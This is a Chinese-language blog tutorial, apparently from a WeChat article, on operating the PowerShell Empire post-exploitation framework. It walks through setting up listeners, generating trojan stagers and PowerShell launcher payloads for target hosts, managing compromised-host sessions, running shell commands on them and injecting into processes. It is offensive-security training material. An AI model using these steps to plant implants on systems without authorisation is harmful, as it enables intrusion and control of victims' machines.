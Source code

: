 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/0fcxGYK--bYdtEvkuZBb2A)

一、基本命令：(## 注意 Empire 下命令区分大小写 ##)

1、启动 Empire 后，首先查看一下命令帮助信息

```
help
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBTnfFia8swptedZMiao55dN3DOGH5DPuRzHj7h45mXTiafl8Ik3YflM4iaQ/640?wx_fmt=png)

二、设置监听器：

与 coblatstrike 类似，也是要先创建 Linstener，然后后续操作选择生成的监听器即可，与 CS 不同的是：当开启多个监听时，必须使用不同的名称、不同的端口

1、进入 listeners 界面：

```
listeners
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBpwWtKJ7BKZwR7EDQO4Mib3NbicflUp2NsNPN6YiclhXxDNr2mAu689f3A/640?wx_fmt=png)

查看命令帮助

```
help
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBkPF96gdAQolAzH0tWsS3bMebsE3n5K1SY7jFJJ9Lm3IApIDqqdrDqg/640?wx_fmt=png)

2、创建 Listener：

**uselistene****r** 命令，可以通过空格 + 双击 tab 键，看到一共有 7 种 Listener，一般常用的是：**http、http_foreign、meterpreter、redirector**，其他的不怎么用

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBOWqGmRuMcJIURYyYNhBtHvBhO3oKr0iaqEQQXCbqxibNeh2yKFxCMKfw/640?wx_fmt=png)

创建 Listener：

①选择监听器类型

```
uselistener <监听器类型>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBrQHSmrRNLwakLcyqFx7JEjiav28X4eBYjvR0mmw0WiaiaEqEDuMIibLWqQ/640?wx_fmt=png)

②查看所需配置

```
info
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBN62nO1iaTibz1PhmGvYKqFlzmlXgxRK4BqAeI7RoUvh3x8GD57ZHLbdw/640?wx_fmt=png)

③设置相关配置并启动监听

```
set Name <自定义名称>
set Host <服务器ip>
set Port <监听端口>
execute    #执行监听器
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBWTnmU3PCGORibRQn0sKXibleBZI7O37eZYRYBlv7fbtmCxOtOqzdw02g/640?wx_fmt=png)

back 返回 listeners 界面即可看到监听器列表

```
list
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBJR5nF5T99xIHFDMc8mwFsWEIvicCkuIPfia0lmCgN1aiaTYxCwaibEmQlw/640?wx_fmt=png)

④删除监听器

```
kill <监听器名称>
```

三、生成木马 stagers：

在 listeners 界面下操作，通过 usestager，空格 + 双击 tab 键可以看到支持的所有 stagers，

multi 是通用模块、osx 是 mac 操作系统、然后就是 windows 的模块

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBcibfQnSW9E8VjN5P7O0uJnw2cKaXUBHaiaavnW20udNcWUZXwGNRxazQ/640?wx_fmt=png)

①生成 stager：

```
usestager <模块名称>
set listener <监听器名称>
execute    #执行生成
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBNwgkoibmia0ibD2yHzkq85bPyuglxnYLmmCWr5fqia4POPNXM3sv9g9BPw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBeNNpfD3MMRmdroeyvCf0icOZttmXRk4nvFKDe4z2omZgh9kIiaGDyBXQ/640?wx_fmt=png)

然后会在 / tmp / 目录下生成木马文件，在目标主机运行就会上线

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBbcWYbo8xSSDgZmYPc2NlugtJIbd9vpjfZicmLNmticOWOdP7N0o1fWpQ/640?wx_fmt=png)

②使用 launcher 命令：

```
launcher <语言> <监听器名称>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJB7wfF0TsPd5qrbGoHjbLo9JmCheKWy9kP5babXDsicPskB7R1l1YlXlA/640?wx_fmt=png)

将生成的这段 payload 在有 powershell 的目标机上执行，就会上线

③操作 agents(会话)：

1. 查看会话列表：

```
agents    #相当于msf的sessions命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBzwFDtm0QJWyt04sXJIMGPZSrtFQFbbfWH6v7XbzRmCl6021iaWVCBNA/640?wx_fmt=png)

重命名 agents：

```
rename <会话名称> <新的名称>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBSjVe38HT9ZmmXVZPP9nZUn4NTCa14ZKwZCeUTDesLKpF39zJV30tKA/640?wx_fmt=png)

2. 进入会话：

```
interact <会话名称>
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJB70TnRh2HWm7TBcbGLbg3DIFaxUWoVY92QzCFqoOTyGFsfsaFDeKJkw/640?wx_fmt=png)

back 命令就可以实现将会话放置后台了  

3. 杀死会话：

```
kill <会话名称>  先执行
remove <会话名称>   再执行
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJB31I6URSbqgsibUfB72NshatcdCegIGIXa2xkuAibGGAibl7490icpiaUqZg/640?wx_fmt=png)

4.agents 具体命令操作：

很多命令和 MSF 的 meterpreter 会话操作差不多

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBToxqwuwvA9ORumEQuaz7OiaqY8WqucibpfnqUJRISxeEeSCrDw9PqYvQ/640?wx_fmt=png)

常用命令：

```
help agentcmds
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBfUVNg6vxzo5zh9HYT8hTe25nBMGqryEZNeqJBgbTKyEIEEWluycwvg/640?wx_fmt=png)

执行 cmd 命令：

```
shell +命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBd52PIoavqx1yXdu79ticqG6gd2tXUknXIVdhLbwickWzK4c0Hmdm2icSw/640?wx_fmt=png)

四、进程注入：

```
ps    #查看进程PID
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJB0afJbMGoD5GNtVlIpnwQ77WsF06icibibpMR6TAe3kf9jzUtY8p39JGicA/640?wx_fmt=png)

注入进程：

```
usemodule management/psinject
set ProcId
set Listener <监听器名称>
execute
```

![](https://mmbiz.qpic.cn/mmbiz_png/ehibzaP4CvW6zPNUNkrCM6q2A1bwzceJBRAU0sIufGPpQmGQtYWDHnjibvkn7ia1PZh8wTNZP4rg8kxjr1EJ1uclg/640?wx_fmt=png)

注入成功会返回一个新的 agent 会话

**点个赞和在看吧，欢迎转发！**

**点个赞和在看吧，欢迎转发！**

**点个赞和在看吧，欢迎转发！**

![](https://mmbiz.qpic.cn/mmbiz_gif/ehibzaP4CvW5hb2Px7LJVkWEktazM0liacYxsJOVsyUz8lx6MSWyGTmJyJsPsgj9sOSueI5JRuQLTCPW5njR68aA/640?wx_fmt=gif)